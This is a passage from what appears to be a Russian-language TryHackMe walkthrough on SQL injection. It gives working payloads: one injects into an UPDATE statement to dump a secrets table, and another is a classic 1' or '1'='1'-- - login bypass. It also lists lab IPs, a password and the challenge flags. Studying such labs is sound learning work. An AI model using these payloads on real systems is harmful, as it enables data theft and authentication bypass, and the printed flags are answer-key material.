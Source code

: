 ID профиля:10
пароль:toor


Здесь необходимо выполнить то же перечисление, что и для поиска таблиц и имен столбцов, поскольку флаг хранится 
внутри другой таблицы. 

### Ответить на вопросы ниже
```commandline
# task 3
http://10.10.255.151:5000/sesqli5/profile
admin
',nickName=(SELECT group_concat(secret) from secrets),email='
pass
THM{b3a540515dbd9847c29cffa1bef1edfb}
```
Что такое флаг для SQL-инъекции 5: оператор UPDATE?
```commandline
THM{b3a540515dbd9847c29cffa1bef1edfb}
```

## Задание 4
#### Цель
Цель этого задания — найти способ обойти аутентификацию, чтобы получить флаг. 
#### Описание
На целевой странице http://MACHINE_IP:5000  перейдите в раздел Broken Authentication в разделе Track: Vulnerable Startup ( http://MACHINE_IP:5000/challenge1/ ).

#### Задача
Обойдите вход в систему и восстановите флаг.

### Ответить на вопросы ниже
```commandline
# task 4
http://10.10.255.151:5000/challenge1/login?next=http%3A%2F%2F10.10.255.151%3A5000%2Fchallenge1%2Fhome
profileID: 1' or '1'='1'-- -
THM{f35f47dcd9d596f0d3860d14cd4c68ec}
```
Какой флаг у этого испытания?
```commandline
THM{f35f47dcd9d596f0d3860d14cd4c68ec}
```

## Задание 5
### Цель
Эта задача основывается на предыдущей. Здесь цель — найти способ сбросить все пароли в базе данных, чтобы получить 
флаг без использования слепого внедрения. 
